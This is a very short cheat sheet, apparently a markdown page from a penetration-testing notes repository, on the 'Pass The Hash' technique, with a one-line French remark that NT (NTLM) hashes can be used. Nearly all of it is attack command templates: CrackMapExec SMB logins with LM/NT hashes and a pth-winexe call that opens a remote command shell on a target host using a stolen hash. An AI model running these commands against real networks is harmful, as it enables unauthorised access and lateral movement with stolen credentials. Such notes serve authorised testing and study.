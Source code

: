 # Pass The Hash

```
cme smb <IP> -u <USER> -H <LM-HASH>:<NT-HASH>
cme smb <IP> -u <USER> -H <NT-HASH>

pth-winexe -U <USER>%<LM-HASH>:<NT-HASH> //<IP> cmd
```

Les _hashs_ NT (a.k.a NTLM) peuvent être utilisés.
